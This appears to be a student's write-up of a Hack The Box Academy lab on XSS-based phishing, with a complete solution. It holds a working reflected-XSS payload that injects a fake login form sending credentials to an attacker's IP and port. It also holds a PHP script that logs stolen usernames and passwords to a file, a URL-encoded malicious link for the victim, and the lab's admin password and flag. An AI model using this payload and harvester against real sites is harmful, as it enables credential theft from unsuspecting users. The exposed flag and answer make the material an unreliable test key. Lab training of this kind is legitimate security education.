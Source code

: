 Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

![](https://academy.hackthebox.com/storage/modules/103/xss\_image\_viewer.jpg)

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:

Phishing

```shell-session
AIceBear@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.

**Questions**

Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

<pre data-overflow="wrap"><code><strong>#http://10.129.142.193/phishing/index.php
</strong>'/>&#x3C;h3>Please login to continue&#x3C;/h3>&#x3C;form action=http://10.10.15.15:4444/uuid_of_my_generated_webhook>&#x3C;input type="username" name="username" placeholder="Username">&#x3C;input type="password" name="password" placeholder="Password">&#x3C;input type="submit" name="submit" value="Login">&#x3C;/form>&#x3C;script>document.getElementById('urlform').remove();&#x3C;/script>&#x3C;!--

vi index.php #at this step we wrote our index.php file
&#x3C;?php
if (isset($_GET['username']) &#x26;&#x26; isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
sudo php -S 10.10.15.15:4444

#send this http://10.129.142.193/phishing/send.php
http://10.129.142.193/phishing/index.php?url=%27%2F%3E%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.15%3A4444%2Fuuid_of_my_generated_webhook%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%3Cscript%3Edocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--

#http://10.129.142.193/phishing/login.php
#username=admin
#password=p1zd0nt57341myp455
HTB{r3f13c73d_cr3d5_84ck_2_m3} 
</code></pre>
